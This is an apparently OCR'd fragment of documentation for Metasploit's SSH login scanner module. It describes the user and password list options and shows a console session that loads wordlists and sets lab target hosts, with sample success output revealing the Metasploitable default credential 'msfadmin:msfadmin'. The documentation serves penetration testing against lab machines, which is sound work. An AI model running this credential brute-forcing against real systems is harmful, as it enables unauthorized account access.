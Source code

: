   ````[+] SSH - Success: 'msfadmin:msfadmin' 'uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin) Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux '```
  
  A file containing a username on every line.

  **VERBOSE**
  
  Show a failed login attempt.  This can get rather verbose when large `USER_FILE`s or `PASS_FILE`s are used.  A failed attempt will look similar to the following:

  ```
  [-] SSH - Failed: 'msfadmin:virtual'
  ```

## Option Combinations

It is important to note that usernames and passwords can be entered in multiple combinations.  For instance, a password could be set in `PASSWORD`, be part of either `PASS_FILE` or `USERPASS_FILE`, be guessed via `USER_AS_PASS` or `BLANK_PASSWORDS`.
This module makes a combination of all of the above when attempting logins.  So if a password is set in `PASSWORD`, and a `PASS_FILE` is listed, passwords will be generated from BOTH of these.

## Scenarios

  Example run against:
  * Ubuntu 14.04 Server with root login permitted: 192.168.2.156
  * Ubuntu 16.04 Server: 192.168.2.137
  * Metasploitable: 192.168.2.46
  * Metasploitable 2: 192.168.2.35

```
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > cat /root/ssh_passwords.lst
[*] exec: cat /root/ssh_passwords.lst

msfadmin
badpassword
root
ubuntu

msf auxiliary(ssh_login) > set pass_file /root/ssh_passwords.lst
pass_file => /root/ssh_passwords.lst
msf auxiliary(ssh_login) > cat /root/ssh_un.lst
[*] exec: cat /root/ssh_un.lst

msfadmin
badpassword
root
ubuntu

msf auxiliary(ssh_login) > set user_file /root/ssh_un.lst
user_file => /root/ssh_un.lst
msf auxiliary(ssh_login) > cat /root/ssh_hosts.lst
[*] exec: cat /root/ssh_hosts.lst

192.168.2.156
192.168.2.137
192.168.2.35
192.168.2.46
msf auxiliary(ssh_login) > set rhosts file://root/ssh_hosts.lst
rhosts => file://root/ssh_hosts.lst
msf auxiliary(ssh_login) > set verbose false
verbose => false
msf auxiliary(ssh_login) > set threads 4
threads => 4
  ````